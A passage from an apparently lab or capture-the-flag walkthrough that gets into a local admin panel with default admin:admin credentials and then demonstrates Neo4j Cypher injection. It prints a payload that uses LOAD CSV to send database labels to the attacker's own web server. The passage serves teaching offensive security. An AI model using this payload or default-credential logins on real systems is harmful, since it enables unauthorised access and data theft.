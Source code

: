 ![obraz](https://github.com/user-attachments/assets/131b9c7d-5028-4efd-8e72-f140f740d48a)

Now use it as current proxy:  

![obraz](https://github.com/user-attachments/assets/cd79915c-db4c-492d-b2d1-4e7a9a5c6167)

Now we should be able to access port 8001 in our browser on kali by going to:   
```
http://localhost:8001
```

It gives us login page as show below:  

![obraz](https://github.com/user-attachments/assets/85d64ec0-a8f8-438c-b213-165ebfe40a99)

When we see a login page (especially when it runs on localhost only) we should always try some default credentials.  
In this case admin:admin worked.  

![obraz](https://github.com/user-attachments/assets/f1ad9c86-ff20-4337-be61-d00b11f7beb9)

There is a hint saying:  
"Migrated to a new database(neo4j)"   

It can be validated by looking at previously shown ports, port 7474 is used for neo4j database.  
First thing that came to my mind is that it could be a hint for neo4j Cypher injection.  


## Neo4j - Cypher Injection

Let’s start with a brief introduction.  
Cypher is the query language used by Neo4j, a popular graph database.  
It’s similar in purpose to SQL but is specifically designed for querying and manipulating graph data structures rather than traditional relational tables.  

You’ve probably heard of SQL injection, a common attack where malicious users inject SQL code into queries to manipulate or access unauthorized data. Similarly, Cypher injection occurs when an attacker injects malicious Cypher code into a query, exploiting vulnerabilities in how the query is constructed or parameterized.   

We can verify if it's vulnerable by simply using query that will return everything.  
![obraz](https://github.com/user-attachments/assets/85e1a763-3bc8-4637-8ed8-76c04fbf627f)

It returned all records meaning we have a proof of concept.  

Let's now start with dumping the database, first we will list labels using this payload:  
```
' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.9/?'+label AS b RETURN b//
```
Before running it we need to start python server:  
```
python3 -m http.server 80
```
LOAD CSV will send output to our server as shown below:  
